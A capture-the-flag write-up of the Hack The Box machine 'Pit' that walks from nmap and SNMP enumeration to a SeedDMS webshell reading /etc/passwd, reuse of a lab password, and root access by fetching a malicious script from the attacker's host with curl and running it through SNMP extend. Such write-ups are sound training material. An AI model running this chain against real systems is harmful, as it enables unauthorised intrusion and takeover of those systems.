

# [Pit](https://app.hackthebox.com/machines/pit)

```bash
nmap -p-  --min-rate 10000 10.10.10.241 -Pn
```


After knowing open ports (22,80,9090), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,9090 10.10.10.241 -Pn
```


I also do UDP scan for my target.

```bash
nmap -p- -sU  --min-rate 10000 10.10.10.241 -Pn
```

Due to scan results, we see that 'pit.htb' and 'dms-pit.htb' FQDN s are automatically resolved for this ip address.


I just see that port 161 (snmp) is open, that's why let's enumerate SNMP server via `snmpwalk` command.

```bash
snmpbulkwalk -Cr1000 -c public -v2c 10.10.10.241
```

Another enumeration script, I got from [here](https://github.com/dheiland-r7/snmp)


I got specific endpoint called '/var/www/html/seeddms51x/seeddms
', let's access here from HTTP.


That's possible for 'dms-pit.htb'


From this results, I also grab sensitive credentials.


michelle: michelle (to login dms-pit)


I just searched publicly known exploits.

I find RCE that called [CVE-2019-12744](https://www.exploit-db.com/exploits/47022)

First, we create our malicious php webshell.


Now, I need to add document .


My document_id is 29.


Now, it's time to do RCE , we need to do browsing this page.

```bash
URL=>  http://dms-pit.htb/seeddms51x/data/1048576/29/1.php?cmd=cat /etc/passwd
```


Then I found sensitive file via browsing below url.


From source page, I find sensitive credentials.


seeddms: ied^ieY6xoquu


I use this credentials to login into 'pit.htb:9090' application.

But, password is worked , not username.

For this part, michell: ied^ieY6xoquu credentials worked.


There is '**Terminal**' section, let's access here.

user.txt


If we back to our SNMP enumeration, there is file called '/usr/bin/monitor'


If I add my privilege escalation script into '**/usr/local/monitoring**' directory, I can be root.


Now, I wrote malicious `check.sh` script as below.


Let's upload this malicious script into machine.

```bash
python3 -m http.server --bind 10.10.16.8 8080
```


Let's download this file from our http server.

```bash
curl http://10.10.16.8:8080/check.sh -o check.sh
```

After downloading, for working of this script, I need to copy this into '/usr/local/monitoring' directory.

```bash
cp check.sh /usr/local/monitoring
```



Also need to walk SNMP.
```bash
snmpwalk -m +MY-MIB -v2c -c public 10.10.10.241 nsExtendObjects
```


Now , we can login via our private key (id_rsa) into machine.

```bash
ssh -i /root/.ssh/id_rsa root@10.10.10.241 
```

root.txt

